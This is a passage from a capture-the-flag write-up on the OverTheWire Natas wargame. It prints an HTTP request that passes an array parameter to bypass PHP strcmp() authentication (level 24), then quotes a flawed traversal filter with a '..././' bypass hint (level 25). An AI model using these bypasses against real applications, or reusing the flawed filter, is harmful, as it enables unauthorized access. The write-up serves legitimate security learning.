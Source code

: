 To get the application to drop a 0, we need to get it to break. And to get it to break we need to pass it something it can't deal with, lucky for us `strcmp()` doesn't deal well with anything that isn't a string. So, if we modify our request to make the initial parameter an array, we can force the application to error on a type mismatch, resulting in the 0 return.

```
GET /?passwd[]=funkyouiaml33t HTTP/1.1
Host: natas24.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas24.natas.labs.overthewire.org/
Cookie: __cfduid=dc8d1ca00f5e6ddf88da93337662ff66b1523893447
Authorization: Basic bmF0YXMyNDpPc1JtWEZndW96S3BUWlo1WDE0ek5PNDMzNzlMWnZlZw==
Connection: close
Upgrade-Insecure-Requests: 1
```

Boosh.

## Level 25

What?

Lot of code here... is it all active?

OK, so we actually have three blocks of PHP code to look at, the first looks to be doing a bunch of stuff related to file inclusions, the second block is a for loop that looks to be listing some files from disk onto the page, finally the third block is acting like a `main` method in C, and is just calling some functions in order.

One thing we can discover when looking at the source code for this one is that we're using that janky `strstr` method again, which, as we discovered back in a previous challenge, is a bit weird in the way it actually looks for things in the string.

Bad news, we don't get to see if we hit something we shouldn't have, as the application is logging to the... logs... duh

..././

This challenge is a good example of why you should use frameworks or built-in functions to do things and not try to write your own methods. Take a look at this code snippet.

```
function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
```
